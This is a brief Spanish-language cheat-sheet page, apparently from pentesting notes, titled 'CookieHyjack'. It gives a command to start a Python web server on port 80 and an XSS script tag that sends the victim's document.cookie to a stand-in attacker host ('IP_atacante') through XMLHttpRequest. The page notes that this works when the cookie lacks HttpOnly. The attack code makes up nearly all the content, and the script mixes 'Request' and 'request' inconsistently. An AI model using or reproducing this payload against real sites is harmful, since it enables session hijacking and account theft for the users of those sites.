 # CookieHyjack

Este script básico funciona siempre y cuando la cookie del usuario victima tenga en false la propiedad HttpOnly&#x20;

```
python3 -m http.server 80
```

```
<script src="IP_atacante/fichero.js">      
    var request = new XMLHttpRequest();
    Request.open('GET', 'http://IP_atacante/?cookie=' + document.cookie);
    request.send();
</script>
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image.png" alt="" width="563"><figcaption></figcaption></figure>

</div>
